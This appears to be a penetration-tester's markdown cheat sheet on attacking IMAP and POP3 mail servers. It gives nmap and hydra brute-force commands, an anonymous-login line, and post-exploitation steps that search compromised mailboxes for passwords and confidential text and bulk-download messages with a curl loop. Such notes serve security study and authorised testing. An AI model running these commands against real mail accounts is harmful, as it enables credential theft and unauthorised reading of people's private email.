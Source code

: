 ```yaml
---
id: Exploitation
aliases: []
tags: []
---
```


<!-- Exploitation {{{-->
# Exploitation

<!-- IMAP {{{-->
## IMAP

<!-- Anonymous Login {{{-->
### Anonymous Login

```sh
a1 LOGIN "" ""
```

___

<!-- }}} -->

<!-- Brute Force {{{-->
### Brute Force

Brute force imap server credentials

Brute force with [[Nmap]]

> [!example]-
>
>
> ```sh
> nmap --script imap-brute -p 143,993 <target_ip> -oA imap-brute
> ```
>
> ```sh
> nmap -sV --script imap-brute -p <port> <target_ip> -oA imap-brute-version
> ```

Brute force with [[Hydra]]

> [!example]-
>
> IMAPS (*SSL/TLS*)
>
> ```sh
> hydra -S -v -l <username> -P <passwords.txt> -s 993 -f <target> imap -V
> ```
>
> IMAP (*plaintext*)
>
> ```sh
> hydra -l <username> -P <passwords.txt> -f <target> imap -V
> ```
>
> Multiple users
>
> ```sh
> hydra -L <users.txt> -P <passwords.txt> imap://<target>
> ```

___

<!-- }}} -->

<!-- Pass-the-Hash {{{-->
### Pass-the-Hash

Exploit NTLM authentication to use password hashes instead of plaintext
passwords

> [!example]-
>
> Check if NTLM auth is supported
>
> ```sh
> nmap -p 143 --script imap-ntlm-info <target> -oA imap-script-ntlm-info
> ```

___

<!-- }}} -->

<!-- IMAP Injection {{{-->
### IMAP Injection

[IMAP injection attacks](https://hackviser.com/tactics/pentesting/services/imap#imap-injection)
involve injecting malicious commands or data into IMAP requests
to exploit vulnerabilities in the server software
or gain unauthorized access to email accounts.

___

<!-- }}} -->

<!-- Man-in-the-Middle {{{-->
### Man-in-the-Middle

[MitM attacks](https://hackviser.com/tactics/pentesting/services/imap#man-in-the-middle-mitm-attacks)
on IMAP traffic can intercept and modify email messages exchanged
between the client and server, compromising the confidentiality
and integrity of email communication.

___

<!-- }}} -->

<!-- }}} -->

<!-- POP3 {{{-->
## POP3

<!-- Brute Force {{{-->
### Brute Force

Brute force POP3 login credentials

> [!example]-
>
> Brute force with [[Nmap]]
>
> ```sh
> nmap -p 110 --script pop3-brute --script-args userdb=users.txt,passdb=pass.txt <target> -oA pop3-brute
> ```
>
> Brute force with [[Hydra]]
>
> ```sh
> hydra -L <users.txt> -P <passwords.txt> -f <target> pop3 -V
> ```
>
> ```sh
> hydra -l <username> -P <passwords.txt> -f <target> pop3 -V
> ```

___

<!-- }}} -->

<!-- }}} -->

<!-- }}} -->

<!-- Post-Exploitation {{{-->
# Post-Exploitation

## IMAP

<!-- Email Extraction {{{-->
### Email Extraction

Extract emails and sensitive information from compromised IMAP accounts

Read and Search Emails

> [!example]-
>
> Read all emails
>
> ```sh
> a1 LOGIN <username> <password>
> ```
>
> ```sh
> a2 SELECT INBOX
> ```
>
> ```sh
> a3 FETCH 1:* (BODY[])
> ```
>
> Search for specific content
>
> ```sh
> a4 SEARCH SUBJECT "password"
> ```
> ```sh
> a5 SEARCH FROM "admin@target.com"
> ```
> ```sh
> a6 SEARCH TEXT "confidential"
> ```

Download Emails

> [!example]-
>
> Download all emails with curl
>
> ```sh
> for i in {1..100}; do
>   curl -u username:password "imap://target.com/INBOX;UID=$i" > email_$i.eml
> done
> ```

___

<!-- }}} -->

<!-- Sensitive Information {{{-->
### Sensitive Information

Search for sensitive information and credentials in email content.
Keyword Search

> [!example]-
>
> Search for keywords
>
> ```sh
> SEARCH TEXT "password"
> ```
>
> ```sh
> SEARCH TEXT "credential"
> ```
>
> ```sh
> SEARCH TEXT "confidential"
> ```
>
> ```sh
> SEARCH SUBJECT "reset"
> ```
>
> Search by date
>
> ```sh
> SEARCH SINCE 01-Jan-2024
> ```
>
> Combined search
>
> ```sh
> SEARCH FROM "admin" SUBJECT "password"
> ```

___

<!-- }}} -->

<!-- }}} -->
